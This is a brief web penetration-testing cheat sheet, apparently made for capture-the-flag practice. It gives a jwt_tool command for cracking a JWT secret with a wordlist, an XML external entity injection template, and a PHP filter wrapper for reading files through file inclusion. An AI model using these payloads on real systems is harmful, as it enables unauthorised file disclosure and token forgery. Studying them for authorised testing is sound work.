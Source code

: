 # web-pen-testing
web-pen-testing
# python3 jwt_tool.py -t URL -rc TOKEN -C -d WORDLIST

# xml usage template
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE [name] [
<!ELEMENT [name] ANY>
<!ENTITY [entityName] SYSTEM "command">
]>
<name> &entityName; </name>
# template of php filters: 
php://filter/convert.base64-encode/resource= RES
# default path to web folder
/var/www/html/flag
